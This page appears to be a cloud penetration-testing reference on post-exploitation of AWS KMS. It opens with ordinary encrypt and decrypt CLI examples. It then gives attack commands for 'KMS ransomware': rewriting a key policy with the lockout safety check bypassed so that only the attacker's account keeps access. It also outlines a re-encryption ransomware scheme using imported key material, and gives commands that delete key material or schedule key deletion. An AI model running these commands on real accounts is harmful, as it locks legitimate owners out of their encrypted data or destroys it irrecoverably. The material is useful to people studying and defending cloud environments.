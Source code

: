 # AWS - KMS Post Exploitation

## KMS

For more information check:

[[../aws-services/aws-kms-enum.md]]

### Encrypt/Decrypt information

`fileb://` and `file://` are URI schemes used in AWS CLI commands to specify the path to local files:

- `fileb://:` Reads the file in binary mode, commonly used for non-text files.
- `file://:` Reads the file in text mode, typically used for plain text files, scripts, or JSON that doesn't have special encoding requirements.

> [!TIP]
> Note that if you want to decrypt some data inside a file, the file must contain the binary data, not base64 encoded data. (fileb://)

- Using a **symmetric** key

```bash
# Encrypt data
aws kms encrypt \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --output text \
    --query Plaintext | base64 \
    --decode
```

- Using a **asymmetric** key:

```bash
# Encrypt data
aws kms encrypt \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --output text \
    --query Plaintext | base64 \
    --decode
```

### KMS Ransomware

An attacker with privileged access over KMS could modify the KMS policy of keys and **grant his account access over them**, removing the access granted to the legit account.

Then, the legit account users won't be able to access any informatcion of any service that has been encrypted with those keys, creating an easy but effective ransomware over the account.

> [!WARNING]
> Note that **AWS managed keys aren't affected** by this attack, only **Customer managed keys**.

> Also note the need to use the param **`--bypass-policy-lockout-safety-check`** (the lack of this option in the web console makes this attack only possible from the CLI).

```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
    --policy-name default \
    --policy file:///tmp/policy.yaml \
    --bypass-policy-lockout-safety-check

{
    "Id": "key-consolepolicy-3",
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<your_own_account>:root"
            },
            "Action": "kms:*",
            "Resource": "*"
        }
    ]
}
```

> [!CAUTION]
> Note that if you change that policy and only give access to an external account, and then from this external account you try to set a new policy to **give the access back to original account, you won't be able cause the Put Polocy action cannot be perfoemed from a cross account**.

![](../../../images/image (77).png)

### Generic KMS Ransomware

#### Global KMS Ransomware

There is another way to perform a global KMS Ransomware, which would involve the following steps:

- Create a new **key with a key material** imported by the attacker
- **Re-encrypt older data** encrypted with the previous version with the new one.
- **Delete the KMS key**
- Now only the attacker, who has the original key material could be able to decrypt the encrypted data

### Destroy keys

```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
    --key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
    --pending-window-in-days 7
```

> [!CAUTION]
> Note that AWS now **prevents the previous actions from being performed from a cross account:**

![](../../../images/image (76).png)

